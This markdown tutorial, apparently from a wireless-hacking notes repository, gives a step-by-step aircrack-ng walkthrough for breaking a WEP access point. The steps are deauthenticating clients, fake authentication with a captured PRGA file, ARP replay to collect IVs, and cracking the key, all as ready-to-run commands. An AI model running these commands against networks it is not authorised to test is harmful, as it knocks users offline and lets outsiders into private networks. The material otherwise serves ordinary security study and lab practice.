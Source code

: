 # Fake Authentication Attack - Bypassing the Password Shared Key (PSK)(WEP)

This attack focuses on an AP that is using PSK authentication.

* Run [setup](../../setup.md) first
* Up to three terminals are needed

```bash
# [Terminal One]
# Set interface to monitor mode
sudo airmon-ng start $ADAPTER $CHANNEL

# Start monitoring - make terminal large enough to see everything
sudo airodump-ng -c $CHANNEL --bssid $BSSID -w $TAG $INTERFACE

# [Terminal Two]
# Run the deauthentication attack
sudo aireplay-ng --deauth 1 -a $BSSID -c $CLIENT $INTERFACE

# Verify that the PRGA .xor file was created
ls *.xor

# Contruct the correct PRGA path name
PRGA=$(echo "$TAG-01-$BSSID.xor" | sed 's/\:/-/'g)

# Run the fake authentication attack with PRGA file
sudo aireplay-ng --fakeauth 0 -y $PRGA -a $BSSID -e $SSID -h $INTERFACEMAC $INTERFACE

# Look for Association successful message :)

# Run the arpreplay attack to generate IVs
sudo aireplay-ng --arpreplay -b $BSSID -h $INTERFACEMAC $INTERFACE

# [Terminal 3]
# Run the deauthentication attack again to generate more IVs
sudo aireplay-ng --deauth 1 -a $BSSID -c $CLIENT $INTERFACE

# Wait for enough data ... several minutes or so
# Stop everything

# Crack the WEP keister (ensure that plenty of IVs are captured beforehand)
sudo aircrack-ng -0 $PCAP
```

## References

* [Aircrack-ng](https://www.aircrack-ng.org/doku.php?id=aircrack-ng)
* [Airmon-ng](https://www.aircrack-ng.org/doku.php?id=airmon-ng)
* [Aireplay-ng](https://www.aircrack-ng.org/doku.php?id=aireplay-ng)
* [Airodump-ng](https://www.aircrack-ng.org/doku.php?id=airodump-ng)
* [Fake Authentication](https://www.aircrack-ng.org/doku.php?id=fake_authentication)

